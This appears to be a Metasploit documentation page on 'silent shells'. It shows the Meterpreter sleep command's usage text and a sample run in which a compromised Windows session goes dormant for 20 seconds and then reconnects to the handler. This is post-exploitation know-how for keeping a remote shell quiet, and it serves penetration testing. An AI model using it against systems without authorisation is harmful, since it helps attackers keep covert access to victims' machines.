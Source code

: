 ## Silent shells
The interface to the sleep command looks like this:
```msf
meterpreter > sleep
Usage: sleep <time>

  time: Number of seconds to wait (positive integer)

  This command tells Meterpreter to go to sleep for the specified
  number of seconds. Sleeping will result in the transport being
  shut down and restarted after the designated timeout.
```

The following shows a sample run where Meterpreter is put to sleep for 20 seconds, after which the session reconnects while the handler is still in background:
```msf
meterpreter > sleep 20
[*] Telling the target instance to sleep for 20 seconds ...
[+] Target instance has gone to sleep, terminating current session.

[*] 10.1.10.35 - Meterpreter session 3 closed.  Reason: User exit
msf exploit(handler) > [*] Meterpreter session 4 opened (10.1.10.40:6005 -> 10.1.10.35:49315) at 2015-06-02 23:00:29 +1000

msf exploit(handler) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > getuid
Server username: WIN-S45GUQ5KGVK\OJ
```

